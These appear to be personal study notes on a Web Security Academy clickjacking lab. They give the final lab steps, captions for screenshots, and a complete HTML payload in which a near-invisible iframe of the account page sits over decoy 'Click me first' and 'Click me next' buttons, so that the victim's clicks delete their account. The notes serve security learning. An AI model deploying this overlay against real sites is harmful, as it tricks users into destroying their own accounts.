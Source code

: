 4. Hover over "Test me first" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties inside the `firstClick` class of the style sheet.
5. Click **Test me first** then hover over **Test me next** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties inside the `secondClick` class of the style sheet.
6. Once you have the div element lined up correctly, change "Test me first" to "Click me first", "Test me next" to "Click me next" and click **Store** on the exploit server.

- login page
	![](Pasted%20image%2020241216205453.png)
- delete account page
	![](Pasted%20image%2020241216210309.png)
- testing exploit for the first button (delete account)
	![](Pasted%20image%2020241216210545.png)
- testing exploit for the second button (yes)
	![](Pasted%20image%2020241216210634.png)
```html
<style>
	iframe {
		position:relative;
		width:700px;
		height:600px ;
		opacity: 0.001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:225px;
	}
</style>

<div class="firstClick">Click me first</div>

<div class="secondClick">Click me next</div>

<iframe src="https://0af300bf0434392f820ed39f0012006a.web-security-academy.net/my-account"></iframe>
```